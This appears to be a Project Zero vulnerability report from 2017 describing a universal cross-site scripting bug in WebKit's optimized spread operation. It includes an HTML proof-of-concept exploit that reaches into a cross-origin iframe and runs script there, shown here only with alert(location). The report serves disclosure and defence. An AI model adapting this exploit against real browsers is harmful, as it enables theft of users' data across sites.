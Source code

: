 # UXSS via operationSpreadGeneric

> Reported by lokihardt@google.com, Jan 20 2017

Once a spread operation is optimized, the function |operationSpreadGeneric| will be called from then on. But operationSpreadGeneric's trying to get a JSGlobalObject from the argument of a spread operation.

It seems that that optimization is not implemented to the release version of Safari yet.

Tested on the Nighly 10.0.2(12602.3.12.0.1, r210957)

PoC:

```html
<body>
<script>

'use strict';

function spread(a) {
    return [...a];
}

let arr = Object.create([1, 2, 3, 4]);
for (let i = 0; i < 0x10000; i++) {
    spread(arr);
}

let f = document.body.appendChild(document.createElement('iframe'));
f.onload = () => {
    f.onload = null;

    try {
        spread(f.contentWindow);
    } catch (e) {
        e.constructor.constructor('alert(location)')();
    }
};

f.src = 'https://abc.xyz/';

</script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1094
